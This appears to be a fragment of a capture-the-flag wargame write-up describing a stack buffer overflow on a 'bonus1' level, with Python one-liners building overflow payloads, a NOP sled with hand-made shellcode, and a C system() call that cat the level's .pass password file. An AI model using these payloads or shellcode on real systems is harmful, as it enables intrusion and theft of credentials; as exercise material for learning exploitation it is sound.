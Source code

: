 ```py
python -c "print('\x80' + 'A'*13 + '\xd6\xf6\xff\xbf' + 'A')"
```

![](./pics/47.png)

we are jumping to shellcode but I got only segfaults why? no idea

I'm going to try to insert not shellcode but other code that will cat the file directly something like
this 

```c
system("/bin/cat /home/user/bonus1/.pass");
```

but when I tried to compile this and get some binary code I got more than 61 bytes which I can not put
on the stack frame of `main`, if you recall the biggest stack is on `p` let's try to move there our
current shellcode and later swap it 


```py
python -c 'print "\x90" * 99 + "\x0a" + "\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x70\x61\x73\x73\x68\x73\x31\x2f\x2e\x68\x62\x6f\x6e\x75\x68\x73\x65\x72\x2f\x68\x6d\x65\x2f\x75\x68\x2f\x2f\x68\x6f\x89\xe1\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"'

python -c 'print "A"*14 + "\xb4\xe6\xff\xbf" + "A"'
```

![](./pics/48.png)
